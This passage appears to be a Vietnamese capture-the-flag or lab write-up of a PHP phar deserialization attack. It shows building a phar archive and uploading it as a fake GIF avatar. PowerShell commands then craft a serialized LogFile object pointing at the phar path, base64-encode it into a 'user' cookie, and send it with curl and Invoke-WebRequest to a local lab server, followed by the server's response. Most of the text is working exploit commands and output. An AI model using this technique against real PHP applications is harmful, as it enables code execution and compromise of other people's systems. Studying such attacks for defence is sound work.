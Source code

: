 ```
php -d phar.readonly=0 build_phar.php
```

Upload file avatar: `avatar.gif`

## Tạo cookie

```bash
PS C:\Users\biscuit\Desktop> $phar = 'phar://upload/testq/avatar.gif/a'
PS C:\Users\biscuit\Desktop> $len = [Text.Encoding]::UTF8.GetByteCount($phar)
PS C:\Users\biscuit\Desktop> $ser = 'O:7:"LogFile":1:{s:8:"filename";s:' + $len + ':"' + $phar + '";}'
PS C:\Users\biscuit\Desktop> $cookie = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($ser))
PS C:\Users\biscuit\Desktop> & "$env:SystemRoot\System32\curl.exe" -s `
>>   -H "Cookie: user=$cookie" `
>>   "http://127.0.0.1:59925/?page=view_avatars"
PS C:\Users\biscuit\Desktop> Invoke-WebRequest -UseBasicParsing `
>>   -Uri "http://127.0.0.1:59925/?page=view_avatars" `
>>   -Headers @{ Cookie = "user=$cookie" }

StatusCode        : 200
StatusDescription : OK
Content           :

                    <!DOCTYPE html>
                    <html lang="en" dir="ltr">
                    <head>
                        <meta charset="UTF-8">
                        <meta name="viewport" content="width=device-width, initial-scale=1.0">
                        <title> Login </title>
                        <style>...
RawContent        : HTTP/1.1 200 OK
                    Transfer-Encoding: chunked
                    Connection: keep-alive
                    Content-Type: text/html; charset=UTF-8
                    Date: Sat, 30 Aug 2025 05:55:40 GMT
                    Server: nginx
                    X-Powered-By: PHP/7.4.0

                    <!DOCTYP...
Forms             :
Headers           : {[Transfer-Encoding, chunked], [Connection, keep-alive], [Content-Type, text/html; charset=UTF-8], [Date, Sat,
                    30 Aug 2025 05:55:40 GMT]...}
Images            : {}
InputFields       : {}
Links             : {@{outerHTML=<a href="/?page=register">Register now</a>; tagName=A; href=/?page=register}}
ParsedHtml        :
RawContentLength  : 3513
```
